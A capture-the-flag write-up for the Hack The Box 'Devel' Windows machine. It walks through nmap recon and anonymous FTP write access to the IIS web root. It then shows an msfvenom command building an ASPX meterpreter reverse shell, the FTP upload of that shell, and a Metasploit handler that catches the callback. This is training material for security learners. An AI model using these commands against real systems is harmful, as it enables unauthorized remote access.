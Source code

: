 ```yaml
---
layout: post
title: Devel writeup
subtitle: HTB MACHINE
tags: [HTB]
---
```

Hello guys it's Shin today I'm going to guide you on how to root Devel this is one of the easiest windows machine in Hack The Box. In this case I might be using ftp to upload a shell that is made from msf, and from there I will be scanning for any known exploits for the machine so let's get started.
# Recon 
## nmap
``` 
Nmap scan report for devel.htb (10.10.10.5)
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
In this case we have 2 ports open which is `ftp` and `http` and I noticed that in ftp we can login as Anonymous.

# FTP-Port 21
There aren't that much to enumerate other than that your directory that you are in is the web directory.
# HTTP-Port 80
It's just the default page of IIS7:
![](/img/devel-writeup/screenshot1.png)

I tried doing directory bruteforcing using gobuster but it didn't give me much info that could help me root this machine.

# Foothold
I did some research about IIS7 and found out that IIS7 uses aspx so in this case I'm making a shell through msfvenom as aspx as a extension:
``` 
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.5 lport=1337 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2790 bytes
Saved as: shell.aspx
```
Now I'm going to put it in the machine using ftp:
```
ftp> put shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2826 bytes sent in 0.000171 seconds (15.8 Mbytes/s)
```
Now time to execute our shell through a web browser as shown below in the image: 
![](/img/devel-writeup/screenshot2.png)

And run our msf handler:
```
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) set lhost tun0
msf5 exploit(multi/handler) set lport 1337
msf5 exploit(multi/handler) run
```
Then I run "Multi recon exploit suggester" It's a kind of msfconsole module that tries to gather information about the machine and suggest you exploits.

![](/img/devel-writeup/screenshot4.png)
Yikes! That's a lot of exploits to try so I tried the first one  but it didn't work for me so I used the 2nd and it WORKED GREAT!
## BAM!

![](/img/devel-writeup/screenshot5.png)

Now it's time to grab root!

![](/img/devel-writeup/screenshot7.png)

<center>Wow Magic!</center>

<center><img src="/img/devel-writeup/joven.gif"/></center>




